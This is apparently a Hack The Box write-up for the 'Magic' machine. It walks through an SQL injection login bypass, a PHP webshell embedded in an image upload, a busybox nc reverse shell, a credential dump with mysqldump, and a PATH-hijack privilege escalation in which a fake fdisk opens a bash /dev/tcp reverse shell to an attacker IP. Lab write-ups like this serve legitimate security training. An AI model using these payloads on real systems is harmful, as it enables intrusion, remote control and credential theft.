 ```yaml
---
title: "Magic"
date: 2024-07-24
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "magic", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


This write-up covers the exploitation path for the Magic machine on Hack The Box. The target is a Linux-based web server vulnerable to improperly handled file uploads and weak privilege separation.

Key techniques explored include:

- Manually bypassing file upload restrictions using crafted PHP payloads
- Validating execution through predictable web paths and improper MIME filtering
- Enumerating user-owned scripts with elevated permissions for privilege escalation

OS: Linux
Difficulty: Medium

## Enumeration

### Nmap

```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6xX0vzHxP/Qy024qtSuDeQIRZGYsIR+kyje39aNw6HHxdz50XSBSEcauPLDWbIYLUMM+a0smh7/pRjfA+vqHxEp7e5l9H7Nbb1dzQesANxa1glKsEmKi1N8Yg0QHX0/FciFt1rdES9Y4b3I3gse2mSAfdNWn4ApnGnpy1tUbanZYdRtpvufqPWjzxUkFEnFIPrslKZoiQ+MLnp77DXfIm3PGjdhui0PBlkebTGbgo4+U44fniEweNJSkiaZW/CuKte0j/buSlBlnagzDl0meeT8EpBOPjk+F0v6Yr7heTuAZn75pO3l5RHX
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOVyH7ButfnaTRJb0CdXzeCYFPEmm6nkSUd4d52dW6XybW9XjBanHE/FM4kZ7bJKFEOaLzF1lDizNQgiffGWWLQ=
|   256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0dM4nfekm9dJWdTux9TqCyCGtW5rbmHfh/4v3NtTU1
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Magic Portfolio
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

### 80-HTTP

![screenshot](/assets/images/magic1.png)

> "Please **[Login](http://10.10.10.185/login.php)**, to upload images."

#### login.php

![screenshot](/assets/images/magic2.png)

#### Fuzzing

```sh
ffuf -u http://{target IP} -H "Host: FUZZ.magic.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac

gobuster vhost -u http://{target IP} -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

## SQLi

`' or 1=1-- -` as the username 

![screenshot](/assets/images/magic3.png)

```sh
echo "GIF8<?php echo system($_GET["cmd"]);?>" > test.gif
```
![screenshot](/assets/images/magic4.png)

-> did not work 

## Foothold

### File Upload - Bypass filters

Download an actual image, and add `<?php echo system($_GET["cmd"]);?>` .

![screenshot](/assets/images/magic5.png)

![screenshot](/assets/images/magic7.png)

http://10.10.10.185/images/uploads/puppy.php.png?cmd=id

![screenshot](/assets/images/magic8.png)

Verified that the command injection worked.

```sh
# original payload
busybox nc 10.10.10.185 443 -e /bin/sh

# url encoded payload
busybox%20nc%2010.10.10.185%20443%20-e%20%2Fbin%2Fsh
```

Execute the command

![screenshot](/assets/images/magic10.png)

Getting a shell and upgrading it to interactive shell

![screenshot](/assets/images/magic11.png)

## Privilege Escalation

### Enumeration

`/var/www/Magic/db.php5` contains credentials.

![screenshot](/assets/images/magic12.png)

![screenshot](/assets/images/magic13.png)

![screenshot](/assets/images/magic14.png)

Dump the database using *mysqldump*

```sh
mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
```

![screenshot](/assets/images/magic15.png)

Obtained another credential.

### Shell as theseus

`su` with the newly obtained credential.

![screenshot](/assets/images/magic17.png)

![screenshot](/assets/images/magic25.png)

```sh
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/5555 0>&1' > fdisk

chmod +x fdisk
theseus@ubuntu:/dev/shm$ export PATH="/dev/shm:$PATH"
theseus@ubuntu:/dev/shm$ echo $PATH    
```
![screenshot](/assets/images/magic26.png)
